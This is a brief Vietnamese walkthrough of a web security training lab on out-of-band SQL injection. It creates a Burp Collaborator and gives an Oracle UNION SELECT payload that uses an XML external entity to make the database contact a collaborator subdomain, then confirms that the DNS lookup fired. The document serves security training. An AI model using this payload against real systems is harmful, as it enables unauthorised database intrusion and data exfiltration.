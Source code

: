 Trước hết tạo 1 Burp Colaborator 

![Alt text](../image/lab16/03.png)

tìm payload để thực hiện OOB: `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

![Alt text](../image/lab16/04.png)

Kích hoạt DNS thành công

![Alt text](../image/lab16/05.png)

solve lab

![Alt text](../image/lab16/06.png)
